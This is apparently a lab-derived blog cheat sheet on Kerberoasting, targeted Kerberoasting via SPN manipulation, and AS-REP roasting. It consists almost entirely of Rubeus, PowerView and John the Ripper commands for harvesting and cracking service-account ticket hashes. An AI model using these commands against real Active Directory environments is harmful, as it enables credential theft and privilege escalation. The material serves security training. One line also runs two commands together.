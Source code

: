 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoast and Variants
---
```


## Kerberoasting

1. Find Service Accounts
```bash
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser –SPN
```
2. Escalation via Service Accounts - Use Rubeus to request a TGS
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
3. Crack Ticket
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\hashes.txt
```

## Targeted Kerberoasting

1. Find "Write" Permissions
```bash
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
2. Find SPN
```bash
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

3. Set-SPN
```bash
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

4. Kerberoasting
```bash
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting

Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```bash
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```


---

[back](../)
